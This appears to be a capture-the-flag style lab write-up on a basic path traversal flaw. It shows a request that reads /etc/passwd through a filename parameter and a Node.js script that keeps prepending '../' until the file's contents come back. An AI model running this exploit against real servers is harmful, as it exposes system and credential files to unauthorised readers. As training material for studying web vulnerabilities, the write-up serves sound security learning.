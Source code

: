 # 1 - Simple Case

### Notes

The app loads images by passing the filename as a parameter to the back end:

```html
<img src="/image?filename=22.jpg">
```

```http
GET /image?filename=../../../etc/passwd HTTP/1.1
```

The server responds with a 400 status code if the requested file cannot be returned so it is simply a matter of chaining `../` until we receive the contents of `/etc/passwd`.

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  let directoryTravsersalPayload = '../etc/passwd'

  while (true) {
    const imageFileUrl = `${labUrl}/image?filename=${directoryTravsersalPayload}`

    // Note axios will error on status 400 responses, a valid response will be 200
    try {
      const res = await axios.get(imageFileUrl)

      console.log(`File etc/passwd located at: ${directoryTravsersalPayload}.`)
      console.log(' ')
      console.log('Contents of /etc/passwd:')
      console.log(res.data)

      break
    } catch {
      // Move up one directory and try again
      directoryTravsersalPayload = '../' + directoryTravsersalPayload

      continue
    }
  }
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
